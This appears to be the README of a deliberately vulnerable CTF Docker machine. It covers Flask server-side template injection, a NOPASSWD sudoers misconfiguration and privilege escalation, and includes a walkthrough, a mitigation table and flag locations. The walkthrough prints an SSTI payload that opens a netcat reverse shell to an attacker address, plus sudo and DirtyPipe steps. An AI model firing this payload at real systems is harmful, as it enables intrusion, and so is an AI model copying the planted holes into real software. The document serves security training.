 # Tholvi Docker 1 - Medium CTF Machine

![Difficulty](https://img.shields.io/badge/Difficulty-Medium-orange)
![Category](https://img.shields.io/badge/Category-Web%20%2B%20PrivEsc-blue)
![Platform](https://img.shields.io/badge/Platform-Docker%2FLinux-lightgrey)

A deliberately vulnerable CTF machine with:
- Flask Server-Side Template Injection (SSTI)
- Docker container escape
- Linux privilege escalation

## Table of Contents
1. [Quick Start](#quick-start)
2. [Vulnerabilities](#vulnerabilities)
   - [Flask SSTI](#1-flask-ssti---remote-code-execution)
   - [Docker Escape](#2-docker-escape---host-access)
   - [Privilege Escalation](#3-privilege-escalation---root)
3. [Exploitation Walkthrough](#exploitation-walkthrough)
4. [Mitigation Guide](#mitigation-guide)
5. [Flag Locations](#flag-locations)
6. [Educational Value](#educational-value)

---

### Quick Start

### Build and run
git clone https://github.com/your-repo/dockerized-flask-ctf.git
cd dockerized-flask-ctf
docker-compose up -d

### Access the web app
curl http://localhost:5000

### Vulnerabilities
### 1. Flask SSTI - Remote Code Execution

#### Vulnerable Code:

```Python
@app.route("/debug")
def debug():
    user_input = request.args.get('input', 'None')
    return render_template_string(f"Debug: {user_input}")  # SSTI here
```
#### Impact:

    Execute arbitrary commands as ctf user inside container.

### 2. Docker Escape - Host Access

Misconfiguration:

```Bash
RUN echo "ctf ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```
Impact:

    Break out of container to host system via sudo.

3. Privilege Escalation - Root

Attack Vectors:

    SUID Binary: /usr/bin/suid-wrapper (compiled with setuid(0))

    Kernel Exploit: DirtyPipe (CVE-2022-0847) in privileged container.

Exploitation Walkthrough
Step 1: Gain Initial Access (SSTI)

    Detect SSTI:
```http
http://localhost:5000/debug?input={{7*7}}
```
Output: Debug: 49
Get reverse shell:

```Python
{{request.application.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4444 >/tmp/f').read()}}
```
Step 2: Escape Docker Container

    Check containerization:
```Bash
cat /proc/1/cgroup | grep docker
```
Abuse sudo:
```Bash
sudo su  # No password required
```
Step 3: Privilege Escalation

Option A: SUID Binary
```bash
/usr/bin/suid-wrapper  # Spawns root shell
```
Option B: Kernel Exploit
```Bash
gcc dirtypipe.c -o exploit && ./exploit
```
Mitigation Guide
Vulnerability	Secure Configuration
SSTI	Use render_template() instead of render_template_string()
Docker Escape	Remove NOPASSWD in /etc/sudoers
Priv Esc	Patch kernel and avoid privileged: true in Docker

Secure Dockerfile Example:
```Dockerfile
USER ctf
RUN echo "ctf ALL=(ALL) /usr/bin/less" >> /etc/sudoers  # Restrict sudo
```
Flag Locations
Flag	Path	Unlock Condition
user.txt	/home/ctf/user.txt	After SSTI exploit
root.txt	/root/root.txt	After privilege escalation
Educational Value

Skills Learned:

    Web app testing (SSTI detection)

    Container security auditing

    Linux privilege escalation

Recommended Tools:

    linpeas.sh for host enumeration

    checksec for binary analysis

    docker inspect for container auditing
